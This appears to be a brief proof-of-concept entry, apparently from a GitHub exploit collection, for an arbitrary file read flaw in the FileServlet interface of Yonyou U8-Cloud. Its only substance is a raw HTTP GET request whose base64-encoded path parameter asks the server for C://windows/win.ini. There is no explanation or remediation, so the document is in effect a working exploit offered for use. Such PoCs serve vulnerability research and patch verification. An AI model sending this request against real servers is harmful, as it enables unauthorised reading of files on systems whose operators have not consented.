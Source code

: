 # u8c_fileservlet_fileread
2024.4.1 @2
from: https://github.com/wy876/POC/blob/main/%E7%94%A8%E5%8F%8BU8-Cloud%E6%8E%A5%E5%8F%A3FileServlet%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md
```
GET /service/~hrpub/nc.bs.hr.tools.trans.FileServlet?path=QzovL3dpbmRvd3Mvd2luLmluaQ== HTTP/1.1
Host: url
```
